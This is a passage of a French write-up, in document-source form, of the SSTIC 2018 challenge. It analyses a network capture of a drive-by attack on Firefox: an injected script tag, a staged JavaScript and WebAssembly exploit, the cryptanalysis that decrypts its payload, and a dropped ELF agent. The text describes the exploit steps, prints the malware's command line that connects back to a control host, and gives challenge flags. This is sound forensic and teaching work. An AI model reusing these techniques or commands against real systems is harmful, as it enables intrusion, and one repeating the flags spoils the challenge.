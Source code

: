 Investigation de l'attaque
==========================

.. role:: raw-latex(raw)
     :format: latex

Ça commence bien...
-------------------

Le samedi 31 mars, en rentrant d'un dîner en famille à l'occasion du week-end de Pâques, je découvre le courriel suivant [#]_:

.. [#] sur le site web consacré au challenge du SSTIC, http://communaute.sstic.org/ChallengeSSTIC2018

.. code-block:: xorg

    From: marc.hassin@isofax.fr
    To: j.raff@goeland-securite.fr

    Bonjour,

    Nous avons récemment découvert une activité suspecte sur notre réseau. Heureusement
    pour nous, notre fine équipe responsable de la sécurité a rapidement mis fin à la
    menace en éteignant immédiatement la machine. La menace a disparu suite à cela, et une
    activité normale a pu être reprise sur la machine infectée.

    Malheureusement, nous avons été contraints par l'ANSSI d'enquêter sur cette intrusion
    inopinée. Après analyse de la machine, il semblerait que l'outil malveillant ne soit
    plus récupérable sur le disque. Toutefois, il a été possible d'isoler les traces réseau
    correspondantes à l'intrusion ainsi qu'à l'activité détectée.

    Nous suspectons cette attaque d'être l'œuvre de l'Inadequation Group, ainsi nommé du
    fait de ses optimisations d'algorithmes cryptographiques totalement inadéquates.
    Nous pensons donc qu'il est possible d'extraire la charge utile malveillante depuis la
    trace réseau afin d'effectuer un « hack-back » pour leur faire comprendre que ce
    n'était vraiment pas gentil de nous attaquer.

    Votre mission, si vous l'acceptez, consiste donc à identifier le serveur hôte utilisé
    pour l'attaque et de vous y introduire afin d'y récupérer, probablement, une adresse
    e-mail, pour qu'on puisse les contacter et leur dire de ne plus recommencer.

    Merci de votre diligence,

    Marc Hassin,
    Cyber Enquêteur
    Isofax SAS

Cela semble être une mission intéressante. Je télécharge donc la trace réseau sur https://static.sstic.org/challenge2018/challenge_SSTIC_2018.pcapng.gz, vérifie son condensat SHA-256 et ouvre Wireshark [#]_.

.. [#] Wireshark est un logiciel libre d'analyse de trafic réseau, https://www.wireshark.org/

Ce fichier contient 37714 paquets, émis ou reçus depuis l'adresse IP ``192.168.231.123``.
Il s'agit donc certainement de l'adresse IP de la machine qui a été attaquée.
De nombreux paquets de la trace réseau correspondent à des communications HTTP vers des sites web du journal Le Monde.
Il peut donc être intéressant de regarder si la machine compromise s'est connectée à d'autres sites web.
Wireshark permet d'obtenir rapidement de telles statistiques (cf. figure :raw-latex:`\ref{fig:http-stat}`).

.. raw:: latex

    \screenshotwr{.9\textwidth}{http-stat}{images/01_wireshark_http.png}{Statistiques des requêtes HTTP}

Les pages accédées sur http://10.241.20.18:8080 et http://10.141.20.18:8080 ont des noms plutôt suspicieux.
J'extrais donc de la trace réseau les fichiers téléchargés, qui correspondent aux URL suivantes (dans l'ordre dans lequel elles apparaissent dans la trace réseau):

* http://10.241.20.18:8080/stage1.js
* http://10.241.20.18:8080/utils.js
* http://10.241.20.18:8080/blockcipher.js?session=c5bfdf5c-c1e3-4abf-a514-6c8d1cdd56f1
* http://10.141.20.18:8080/blockcipher.wasm?session=c5bfdf5c-c1e3-4abf-a514-6c8d1cdd56f1
* http://10.241.20.18:8080/payload.js?session=c5bfdf5c-c1e3-4abf-a514-6c8d1cdd56f1
* http://10.241.20.18:8080/stage2.js?session=c5bfdf5c-c1e3-4abf-a514-6c8d1cdd56f1

Les fichiers utilisant l'extension ``.js`` sont des scripts JavaScript et celui utilisant ``.wasm`` un programme WebAssembly[#]_.
Avant de se plonger dans l'analyse de ces fichiers, je me suis demandé ce qui avait conduit la machine infectée à télécharger ces fichiers.
En cherchant « ``10.141.20.18`` » dans la trace réseau, Wireshark trouve une communication HTTP avec ``www.theregister.co.uk``:

.. [#] WebAssembly est un format d'instructions qui encode des programmes pouvant s'exécuter dans des navigateurs web (http://webassembly.org/). Pour permettre l'exécution de programmes arbitraires de manière sécurisée, il impose beaucoup de restrictions dans les actions qu'il est possible d'implémenter. Certaines personnes considèrent ces restrictions suffisantes pour même pouvoir repenser la manière de concevoir la séparation usuelle applications/noyau des systèmes d'exploitation et exécuter du code traditionnellement applicatif en espace noyau (https://github.com/nebulet/nebulet).

.. code-block:: html

    GET / HTTP/1.1
    Host: www.theregister.co.uk
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:53.0) Gecko/20100101 Firefox/53.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    ...

    HTTP/1.1 200 OK
    Date: Thu, 29 Mar 2018 15:09:15 GMT
    ...

    <!doctype html>
    <html lang="en">
    ...
    </div>
    <script src="http://10.241.20.18:8080/stage1.js"></script></body>
    </html>

Cette communication HTTP a lieu entre les adresses IP ``192.168.231.123`` et ``104.20.251.41``, qui correspondent respectivement à la machine compromise et à une adresse IP légitime du site web de The Register[#]_.

.. [#] une résolution DNS de www.theregister.co.uk donne ``104.20.250.41`` et ``104.20.251.41``

Ainsi, l'intrusion sur la machine qui a été attaquée a débuté par la visite de l'utilisateur de la machine sur http://www.theregister.co.uk, qui a déclenché l'exécution du script JavaScript ``stage1.js``.
Les éléments présents dans la trace réseau ne permettent pas de déterminer si le site de The Register a été compromis ou si la balise ``<script>`` servant à télécharger ``stage1.js`` a été injectée dans la réponse au cours de son acheminement.


Un navigateur bien vulnérable
-----------------------------

JavaScript et la mémoire partagée
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Le script ``stage1.js`` contient du code JavaScript plutôt lisible (les noms des fonctions sont cohérents avec leurs contenus, des commentaires sont présents, le code est aéré, etc.).
La lecture de ce script permet de comprendre qu'il exploite une vulnérabilité du navigateur afin d'exécuter un programme malveillant.
Comme les en-têtes HTTP émis par la machine compromise correspondent à l'utilisation de Firefox 53.0 sur Linux[#]_, il s'agit du navigateur utilisé. Les étapes du script sont les suivantes:

.. [#] les en-têtes HTTP contiennent « ``User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:53.0) Gecko/20100101 Firefox/53.0`` »

* Le script commence par allouer un objet ``SharedArrayBuffer`` nommé ``sab`` et crée un objet ``sab_view`` qui permet de consulter le contenu de la mémoire associée à ``sab``.
* La fonction ``doit`` [#]_ crée suffisamment de tâches (« workers ») pour générer :raw-latex:`$2^{32}$` références supplémentaires à ``sab``.
* Selon les commentaires présents dans le script, cela provoque un dépassement de capacité du compteur de références à ``sab`` (qui est probablement un nombre de 32 bits). Un appel à ``delete`` conduit alors à la libération de la mémoire (car le compteur de références passe alors à zéro au lieu de :raw-latex:`$2^{32}$`).
* Le script charge alors quelques scripts JavaScript supplémentaires et appelle quelques fonctions avant d'appeler la fonction ``pwn``.
* Cette fonction alloue un certain nombre d'objets ``ArrayBuffer`` et cherche ensuite dans ``sab_view`` un de ces objets. Cela est possible, car ``sab_view`` fait référence à une zone mémoire non-allouée, dans laquelle un ``ArrayBuffer`` peut se retrouver maintenant alloué.
* Une fois cela fait, le script définit ``memory.write``, ``memory.read`` et ``memory.readWithTag``, qui sont des fonctions utilisant l'objet ``ArrayBuffer`` trouvé et ``sab_view`` pour lire et écrire dans la mémoire du processus en cours d'exécution (qui est un processus du navigateur web).
* Cet accès à la mémoire permet ensuite de trouver des éléments permettant l'exécution de code arbitraire, en utilisant des techniques de « programmation orientée retour » (ROP[#]_).
* Ces éléments sont utilisés dans la fonction ``drop_exec`` pour créer un fichier à l'emplacement ``/tmp/.f4ncyn0un0urs`` et l'exécuter.

.. [#] « do it » peut être traduit en « fait cela » et n'a rien à voir avec le verbe « devoir »
.. [#] « Return Oriented Programming », https://fr.wikipedia.org/wiki/Return-oriented_programming

En résumé, ``stage1.js`` exploite une vulnérabilité de type dépassement de capacité du compteur de références afin d'écrire et exécuter un fichier.

Le contenu du fichier qui est créé provient de la fonction ``decryptAndExecPayload``, qui est définie dans ``stage2.js``.
Cette fonction déchiffre le contenu de ``payload.js`` à l'aide d'un mot de passe téléchargé depuis https://10.241.20.18:1443/password?session=c5bfdf5c-c1e3-4abf-a514-6c8d1cdd56f1 et en utilisant un algorithme de déchiffrement implémenté par la fonction ``Module._decryptBlock``.
Cette fonction est définie dans ``blockcipher.js`` (je pouvais m'y attendre, comme le nom du fichier signifie littéralement « chiffrement par bloc ») et fait simplement appel à une fonction chargée depuis http://10.141.20.18:8080/blockcipher.wasm?session=c5bfdf5c-c1e3-4abf-a514-6c8d1cdd56f1.

La manière la plus simple pour déchiffrer un message chiffré est d'en obtenir la clé, qui est calculée à partir du mot de passe utilisé.
Je m'intéresse donc à la manière dont ce mot de passe est obtenu.
Dans la trace réseau, il n'y a qu'un seul flux qui correspond à une communication TLS avec ``10.241.20.18:1443`` (cf. figure :raw-latex:`\ref{fig:https-password}`).
L'analyse de ce flux permet d'obtenir le certificat TLS utilisé, qui est un certificat autosigné avec les caractéristiques suivantes (et leurs traductions en français):

* ``C = RU``: « pays: Russie »
* ``ST = Moscow``: « État ou province: Moscou »
* ``O = APT28``: « organisation: APT28[#]_ »
* ``CN = legit-news.ru``: « nom de domaine: legit-news.ru »

.. [#] https://fr.wikipedia.org/wiki/Fancy_Bear

.. raw:: latex

    \screenshotwr{.9\textwidth}{https-password}{images/01_https_password.png}{Communication HTTPS relative au mot de passe de chiffrement}

Il s'agit donc d'un certificat qui indique des informations relatives à un groupe d'attaquants supposés russes.
Le fait qu'un tel certificat soit utilisé par une machine suffit à conclure que cette machine a pu être compromise, mais ne permet pas d'attribuer l'attaque de manière fiable.

De plus la trace réseau révèle que le téléchargement du mot de passe en HTTPS a utilisé la suite cryptographique ``TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256`` avec une clé RSA de 2048 bits, ce qui est conforme au RGS[#]_.

.. [#] « le référentiel général de sécurité (RGS) est le cadre règlementaire permettant d’instaurer la confiance dans les échanges au sein de l’administration et avec les citoyens », https://www.ssi.gouv.fr/entreprise/reglementation/confiance-numerique/le-referentiel-general-de-securite-rgs/

Ainsi, le mot de passe utilisé pour déchiffrer ``/tmp/.f4ncyn0un0urs`` à partir de ``payload.js`` est protégé efficacement par la communication HTTPS qui a eu lieu avec ``10.241.20.18:1443``.
Pour trouver comment décrypter ce fichier, je vais donc me concentrer sur l'algorithme de déchiffrement qui a été utilisé.

L'assembleur du web
~~~~~~~~~~~~~~~~~~~

L'algorithme utilisé pour déchiffrer les données présentes dans ``payload.js`` fonctionne de la manière suivante:

* Les données commencent par être traitées par la fonction ``deobfuscate`` de ``stage2.js``, qui applique la fonction suivante à chacun des octets: :raw-latex:`$d(x) = (200 x^2 + 255 x + 92) \mbox{ mod } 256$`.
* Le début des données obtenues correspond à un sel cryptographique (« salt », de 16 octets) et à un vecteur d'initialisation (« IV », de 16 octets).
* Le mot de passe de déchiffrement est dérivé en utilisant l'algorithme PBKDF2 [#]_ avec le sel obtenu et :raw-latex:`$1000000$` itérations de SHA-256.
* La fonction ``Module._setDecryptKey`` est appelée avec la clé de déchiffrement obtenue par PBKDF2.
* Les données sont découpées en blocs de 16 octets et déchiffrées en utilisant le mode CBC [#]_ et la fonction ``Module._decryptBlock``.
* Si le premier bloc déchiffré est ``-Fancy Nounours-`` [#]_, le déchiffrement a réussi et les données déchiffrées sont situées dans les blocs suivants. Sinon, le déchiffrement a échoué.

.. [#] PKCS #5: Password-Based Cryptography Specification Version 2.0, https://tools.ietf.org/html/rfc2898
.. [#] « Cipher Block Chaining », https://fr.wikipedia.org/wiki/Mode_d%27op%C3%A9ration_(cryptographie)
.. [#] ce texte occupe 16 caractères ASCII, donc correspond bien à un bloc de 16 octets

Le cœur de l'algorithme de déchiffrement est donc implémenté dans deux fonctions (``_setDecryptKey`` et ``_decryptBlock``). Celles-ci sont implémentées dans le programme WebAssembly ``blockcipher.wasm``.

Pour analyser le programme WebAssembly, plusieurs outils existent: WABT [#]_, wasmdec [#]_, etc. Après quelques essais, j'installe WABT, qui propose une commande ``wasm2c`` qui convertit le WebAssembly pseudo-compilé en instructions C. En effet, les fichiers ``.wasm`` sont des programmes contenant du code compilé en un langage intermédiaire permettant d'être exécuté sur tout type de processeur. Comme ce langage intermédiaire possède un jeu d'instructions relativement restreint, il est possible de convertir ces instructions en C et de produire ainsi des programmes lisibles.

.. [#] https://github.com/WebAssembly/wabt
.. [#] https://github.com/wwwg/wasmdec

La lecture du code ``blockcipher.wasm`` permet de trouver une fonction ``_getFlag`` qui prend deux arguments.
Si le premier est un entier égal à ``0x5571c18`` [#]_, alors 48 octets issus d'un traitement sur des données contenues dans le programme WebAssembly sont copiés à l'emplacement mémoire indiqué par le second argument.
Ce traitement ressemble à un algorithme de déchiffrement construit autour d'une dérivation de clé en 32 sous-clés suivie d'une itération de 32 tours d'un algorithme utilisant des opérations binaires classiques (addition, OU exclusif et rotation de bits).
Après quelques discussions, un ami cryptographe m'informe que l'algorithme employé correspond à Speck[#]_, un algorithme publié par la National Security Agency (NSA) en 2013.
Comme les données du programme WebAssembly contiennent aussi bien les données chiffrées (48 octets) que la clé (de 16 octets), il est possible d'utiliser la fonction ``_getFlag`` sans connaître le mot de passe qui a été transmis en HTTPS, mais simplement en appelant la fonction avec la valeur ``0x5571c18``.
Cette fonction est utilisée dans ``stage2.js`` par la fonction ``getFlag``, qui implémente tout ce qui est nécessaire pour exécuter le programme WebAssembly.

.. [#] il s'agit du texte « SSTIC 18 » en hexspeak
.. [#] https://en.wikipedia.org/wiki/Speck_(cipher)

En adaptant le script JavaScript afin de pouvoir directement appeler ``getFlag(0x5571c18)``, j'obtiens finalement le contenu de 48 octets déchiffré. Il s'agit d'un flag permettant d'effectuer la première validation intermédiaire, qui est nommé « Anomaly Detection » dans la page wiki du challenge:

.. raw:: latex

    \intermediateflag{Anomaly Detection}{SSTIC2018\{3db77149021a5c9e58bed4ed56f458b7\}}

Du chiffrement Russe
~~~~~~~~~~~~~~~~~~~~
:raw-latex:`\label{sect:1-chiffrement-russe}`

En utilisant ``wasm2c`` sur ``blockcipher.wasm`` et en lisant le code C produit, j'arrive à déterminer le fonctionnement de ``_setDecryptKey`` et ``_decryptBlock``.
Ces fonctions sont construites autour de trois fonctions, que j'appelle :raw-latex:`$P$`, :raw-latex:`$S$` et :raw-latex:`$D$`.

La fonction :raw-latex:`$P$` (pour « polynôme ») applique 16 fois une transformation sur un bloc de 16 octets qui fonctionne comme un registre à décalage à rétroaction linéaire[#]_: le bloc (« registre ») de 16 octets est décalé de 16 octets vers la fin, la valeur du premier octet est issue d'opérations combinant les différents octets avec un bloc de 15 octets présent à la position ``0x119`` des données du programme WebAssembly, et le tout est tronqué à 16 octets de nouveau.
Les opérations effectuées ressemblent à la manière dont peut être implémenté un algorithme utilisant un corps fini à  :raw-latex:`$2^8$` éléments (:raw-latex:`$\mathbbm{F}_{256}$`) qui est construit en quotientant l'anneau des polynômes sur :raw-latex:`$\mathbbm{F}_2$` par le polynôme :raw-latex:`$X^8 + X^7 + X^6 + X + 1$`, dont les éléments peuvent être représentés par une séquence de 8 bits (donc un octet).
Ce corps fini peut être noté :raw-latex:`$GF(2^8)$` dans la littérature anglophone, et la section « 2. Mathematical preliminaries » de la spécification d'AES[#]_ contient une bonne introduction aux opérations dans un tel corps fini.

.. [#] https://fr.wikipedia.org/wiki/Registre_%C3%A0_d%C3%A9calage_%C3%A0_r%C3%A9troaction_lin%C3%A9aire
.. [#] https://csrc.nist.gov/csrc/media/projects/cryptographic-standards-and-guidelines/documents/aes-development/rijndael-ammended.pdf

Il arrive souvent que les opérations faisant intervenir des polynômes dans les algorithmes de chiffrement possèdent des propriétés de linéarité.
C'est le cas pour la fonction :raw-latex:`$P$`: si :raw-latex:`$A$` et :raw-latex:`$B$` sont deux blocs de 16 octets, :raw-latex:`$P(A \oplus B) = P(A) \oplus P(B)$` (avec :raw-latex:`$\oplus$` le OU exclusif bit-à-bit). Cette fonction est utilisée par ``_setDecryptKey``, et sa réciproque (notée :raw-latex:`$P^{-1}$`) est utilisée par ``_decryptBlock``.

La fonction :raw-latex:`$S$` (pour « substitution ») agit sur chacun des octets d'un bloc de 16 octets. Elle remplace chaque octet par la valeur correspondante dans un tableau de 256 éléments présent dans les données du fichier ``blockcipher.wasm``. Cela correspond traditionnellement à un composant « S-Box » dans un algorithme de chiffrement, et permet d'y apporter des propriétés de non-linéarité (en général, il est plutôt souhaitable qu'un algorithme de chiffrement ne soit pas linéaire).

La fonction :raw-latex:`$D$` (pour « déobfuscation ») correspond à la fonction ``d`` de ``stage2.js`` (qui est utilisable depuis le programme WebAssembly par le biais de ``Module.d``), appliquée à chacun des octets d'un bloc de 16 octets.

Ces fonctions permettent de comprendre le fonctionnement des algorithmes implémentés par les fonctions ``_setDecryptKey`` et ``_decryptBlock``.
``_setDecryptKey`` divise la clé de déchiffrement de 32 octets en deux blocs 16 octets, notés :raw-latex:`$X_0$` et :raw-latex:`$Y_0$`, et effectue 32 itérations d'applications successives des fonctions :raw-latex:`$P$`, :raw-latex:`$S$`, :raw-latex:`$D$` et OU exclusif.

En notant :raw-latex:`$[0,0...0,i]$` un bloc de 16 octets contenant 15 octets nuls suivis du nombre :raw-latex:`$i$`, et :raw-latex:`$(X_i, Y_i)$` les deux blocs de 16 octets obtenus après la i:sup:`e` itérations, l'algorithme de dérivation de clé peut s'écrire:

.. raw:: latex

    \begin{eqnarray*}
      X_{i+1} &=& P(D(S(P([0,0...0,i+1]) \oplus X_i)) \oplus Y_i \\
      Y_{i+1} &=& X_i
    \end{eqnarray*}

``_setDecryptKey`` enregistre dans le « contexte » de déchiffrement (variable ``ctx`` de ``decryptData`` dans ``stage2.js``) les valeurs de 10 blocs de 16 octets: :raw-latex:`$X_0$`, :raw-latex:`$Y_0$`, :raw-latex:`$X_8$`, :raw-latex:`$Y_8$`, :raw-latex:`$X_{16}$`, :raw-latex:`$Y_{16}$`, :raw-latex:`$X_{24}$`, :raw-latex:`$Y_{24}$`, :raw-latex:`$X_{32}$` et :raw-latex:`$Y_{32}$`.

La fonction ``_decryptBlock`` déchiffre un bloc de 16 octets :raw-latex:`$B$` en suivant le schéma suivant:

.. raw:: latex

    \input{images/01_decrypt_block.tikz.tex}

Soit mathématiquement:

.. raw:: latex

    \begin{eqnarray*}
      \mbox{\_decryptBlock}(B) &=& S(X_0 \oplus D(S(P^{-1}( ... \oplus D(S(P^{-1}(X_{32} \oplus D(S(P^{-1}(Y_{32} \oplus B))) ))) ... ))) )
    \end{eqnarray*}

Cet algorithme de chiffrement correspond peut-être à un algorithme spécifié.
Pour le savoir, je cherche les constantes qui interviennent dans :raw-latex:`$P$`: ``94 20 85 10 c2 c0 01 fb 01 c0 c2 10 85 20 94`` (qui sont les 15 octets utilisés pour les opérations de transformation).
Je trouve ainsi une référence à Kuznyechik [#]_, un algorithme défini dans GOST R 34.12-2015 (RFC 7801)[#]_.
Cela semble correspondre pour la fonction :raw-latex:`$P$`, mais Kuznyechik n'utilise pas la fonction :raw-latex:`$D$`, et la fonction :raw-latex:`$S$` est peut-être différente.

.. [#] https://en.wikipedia.org/wiki/Kuznyechik
.. [#] https://tools.ietf.org/html/rfc7801

Je cherche donc à simplifier l'algorithme implémenté par ``_decryptBlock`` en combinant :raw-latex:`$S$` et :raw-latex:`$D$`.
Pour réaliser cela, je calcule le résultat de l'application de la fonction ``d`` de ``stage2.js`` sur le tableau qui permet de définir :raw-latex:`$S$`.
Je me rends compte que le tableau que j'obtiens alors est [0, 1, 2, 3... 255], c'est à dire la fonction identité !
Ainsi, ``_decryptBlock`` peut être réécrite:

.. raw:: latex

    \begin{eqnarray*}
      \mbox{\_decryptBlock}(B) &=& S(X_0 \oplus D(S(P^{-1}( ... \oplus D(S(P^{-1}(X_{32} \oplus D(S(P^{-1}(Y_{32} \oplus B))) ))) ... ))) ) \\
      &=& S(X_0 \oplus P^{-1}( ... \oplus P^{-1}(X_{32} \oplus P^{-1}(Y_{32} \oplus B) ) ... ) )
    \end{eqnarray*}

Or, :raw-latex:`$P$` est linéaire donc sa réciproque :raw-latex:`$P^{-1}$` aussi, ce qui permet de simplifier cette équation:

.. raw:: latex

    \begin{eqnarray*}
      P^{-1}(Y_{32} \oplus B) &=& P^{-1}(Y_{32}) \oplus P^{-1}(B) \\
      P^{-1}(X_{32} \oplus P^{-1}(Y_{32} \oplus B) &=& P^{-1}(X_{32}) \oplus P^{-1}(P^{-1}(Y_{32})) \oplus P^{-1}(P^{-1}(B)) \\
      &\ldots& \\
      \mbox{\_decryptBlock}(B) &=& S(C_K \oplus P^{-1}(P^{-1}(P^{-1}(P^{-1}(P^{-1}(P^{-1}(P^{-1}(P^{-1}(P^{-1}(B)))))))))) \\
      &=& S(C_K \oplus (P^{-1})^9(B))
    \end{eqnarray*}

où :raw-latex:`$C_K$` est un bloc de 16 octets qui ne dépend que de la clé de chiffrement et non du message chiffré. Sa valeur peut être obtenue en connaissant un bloc et son chiffré, en ajustant la dernière équation:

.. raw:: latex

    \begin{eqnarray*}
      C_K &=& S^{-1}(\mbox{bloc clair}) \oplus (P^{-1})^9(\mbox{bloc chiffré})
    \end{eqnarray*}

En utilisant le vecteur d'initialisation, le fait que le premier bloc clair doit être ``-Fancy Nounours-`` et que le bloc chiffré correspondant est constitué des 16 premiers octets chiffrés, j'ai réussi à déterminer le contenu de :raw-latex:`$C_K$`, et ainsi à réimplémenter ``_decryptBlock`` sans connaître la clé de chiffrement.
Ceci me permet de finalement décrypter le contenu de ``payload.js``, qui correspond à ce qui a été écrit dans ``/tmp/.f4ncyn0un0urs`` lorsque l'attaque a eu lieu[#]_.

.. [#] le script Python que j'utilise pour implémenter cela se trouve à l'annexe :raw-latex:`\ref{sect:ann-decrypt-payload}`

Un ourson fantaisiste
---------------------

Un ELF avec un drapeau
~~~~~~~~~~~~~~~~~~~~~~
:raw-latex:`\label{sect:1-ourson-fantaisiste}`

Après avoir écrit le contenu de ``/tmp/.f4ncyn0un0urs``, l'exploit présent dans ``stage1.js`` exécute ce fichier avec la ligne de commande suivante:

.. code-block:: sh

    /tmp/.f4ncyn0un0urs -h 192.168.23.213 -p 31337

Les arguments du programme contiennent donc une nouvelle adresse IP, ``192.168.23.213``.
Afin de voir s'il s'agit réellement d'une adresse IP utilisée et comment elle est utilisée, il est nécessaire d'analyser ce qu'effectue le programme.
Maintenant que j'en ai décrypté le contenu, les outils usuels d'analyse peuvent être mis en œuvre.

.. code-block:: sh

    $ file .f4ncyn0un0urs
    .f4ncyn0un0urs: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically
    linked, for GNU/Linux 3.2.0, BuildID[sha1]=dec6817fc8396c9499666aeeb0c438ec1d9f5da1,
    not stripped

    $ strings .f4ncyn0un0urs| grep SSTIC
    SSTIC2018{f2ff2a7ed70d4ab72c52948be06fee20}

Il s'agit d'un programme pour Linux, au format ELF[#]_ 64-bits, qui a été lié statiquement (i.e. qui n'utilise pas de bibliothèques liées dynamiquement) et qui contient un flag de validation intermédiaire:

.. [#] c'est le format habituel des programmes Linux

.. raw:: latex

    \intermediateflag{Disruptive JavaScript}{SSTIC2018\{f2ff2a7ed70d4ab72c52948be06fee20\}}

En ouvrant le programme dans un désassembleur comme IDA, je remarque que les noms des fonctions sont présents [#]_ et que la fonction ``main`` appelle deux fonctions: ``agent_init`` et ``agent_main_loop``.
Le programme est donc probablement un « agent » qui exécute des actions provenant d'ailleurs.
La fonction ``agent_init`` analyse les arguments du programme, initialise une structure interne en appelant quelques fonctions, dont les suivantes:

.. [#] il peut arriver que ces informations soient retirées après la compilation du programme, par l'utilisation de la commande ``strip`` par exemple. La présence de ces informations est d'ailleurs visible dans le résultat de la commande ``file``, qui indique « not stripped »

* ``init_genPrime``
* ``rsa2048_gen``
* ``fini_genPrime``
* ``routing_table_init``

Les trois premières utilisent la bibliothèque GMP [#]_ pour générer un bi-clé RSA [#]_.
Ensuite, si le programme est appelé avec l'option ``-c``, un filtre SECCOMP [#]_ est mis en place.
Sinon, ``agent_init`` appelle les fonction ``scomm_connect`` et ``scomm_prepare_channel``, qui initient une connexion TCP/IP à l'adresse et au port indiqués par les options ``-h`` et ``-p`` du programme.
Enfin, ``agent_init`` termine en appelant les fonctions ``scomm_init`` et ``scomm_bind_listen``, ouvrant ainsi un port TCP en écoute (indiqué par l'option ``-l`` du programme ou 31337 par défaut).
Afin de comprendre le protocole de communication utilisé sur TCP/IP, je commence par m'intéresser aux fonctions relatives à l'établissement d'un canal de communication et à la transmission et à la réception des messages.

.. [#] la « GNU Multiple Precision Arithmetic Library » (GMP) est une bibliothèque de code qui permet d'effectuer des calculs (opérations arithmétiques) utilisant des nombre entiers de taille arbitraire, sans limitation à 32 ou 64 bits par exemple
.. [#] RSA est un algorithme de chiffrement asymétrique qui met en œuvre deux clés. La *clé privée* sert au déchiffrement et est secrète donc jamais communiquée, et la *clé publique* sert au chiffrement et peut être communiquée sans affaiblir la protection en confidentialité apportée par l'usage de RSA.
.. [#] http://man7.org/linux/man-pages/man2/seccomp.2.html

Du chiffrement quasiment à l'état de l'art
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

D'après son nom, la fonction ``scomm_prepare_channel`` devrait permettre de préparer un canal de communication sécurisée (en imaginant que « scomm » signifie « secure communication »).
Cette fonction appelle d'autres fonctions, nommées ``aes_genkey``, ``rsa2048_key_exchange``, ``rijndaelKeySetupEnc`` et ``rijndaelKeySetupDec``.
Ces noms permettent de comprendre qu'un algorithme d'échange de clés est utilisé pour définir deux clés AES [#]_, l'une utilisée pour le chiffrement l'autre pour le déchiffrement.
L'analyse des fonctions ``scomm_send`` et ``scomm_recv`` permet de déduire que la clé de chiffrement est utilisée pour chiffrer des données envoyées et que la clé de déchiffrement est utilisée pour déchiffrer des données reçues.
Le chiffrement et le déchiffrement utilisent le mode CBC avec des blocs de 16 octets (128 bits) et un vecteur d'initialisation transmis en préfixe de la communication.
Ces fonctions utilisent les fonctions ``rijndaelEncrypt`` et ``rijndaelDecrypt`` pour chiffrer et déchiffrer un bloc, qui utilisent des grands tableaux de 256 nombres entiers de 32 bits nommés ``Te0``, ``Te1``, ..., ``Te4`` et ``Td0``, ..., ``Td4``.
Une rapide recherche sur internet permet de s'assurer que ces tableaux contiennent bien les constantes habituellement trouvées dans les implémentations d'AES utilisant des tables de correspondance [#]_.

